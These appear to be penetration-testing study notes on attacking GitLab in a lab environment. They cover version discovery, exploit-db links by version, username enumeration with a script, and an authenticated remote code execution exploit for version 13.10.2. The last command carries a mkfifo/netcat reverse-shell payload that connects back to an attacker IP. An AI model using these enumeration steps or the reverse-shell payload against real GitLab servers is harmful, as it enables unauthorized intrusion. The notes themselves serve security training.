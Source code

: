 # Discovery and Enumeration 
* Most companies only allow an internal email to be registered. 
* Get the version number is by navigating to `/help`
### Serious Exploits
#### Gitlab
* [12.9.0](https://www.exploit-db.com/exploits/48431)
* [11.4.7](https://www.exploit-db.com/exploits/49257)
#### Gitlab Community
* [13.10.3](https://www.exploit-db.com/exploits/49821)
* [13.9.3](https://www.exploit-db.com/exploits/49944)
* [13.10.2](https://www.exploit-db.com/exploits/49951)
## Enumeration
	* Try browsing to ` `
	* See if there are any public repos
		* May find SSH keys, API keys etc
	* Explore linked paged in the top right.
* See if we can register an account 
* Use the form to enumerate valid users and emails.
* If you can register, navigate back to `/explore`
## Attacking GitLab
### Username Enumeration 
* Username Enumeration script:
	* https://www.exploit-db.com/exploits/49821
	* https://github.com/dpgg101/GitLabUserEnum
* Git lab sets to 10 attempts before lockout by default
```shell
./gitlab_userenum.sh --url http://gitlab.inlanefreight.local:8081/ --userlist users.txt
```
### Authenticated Remote Code Execution 
* Version 13.10.2 suffered from an authenticated remote code execution vulnerability. 
* [Exploit](https://www.exploit-db.com/exploits/49951)
```shell
 python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u mrb3n -p password1 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.15 8443 >/tmp/f '
```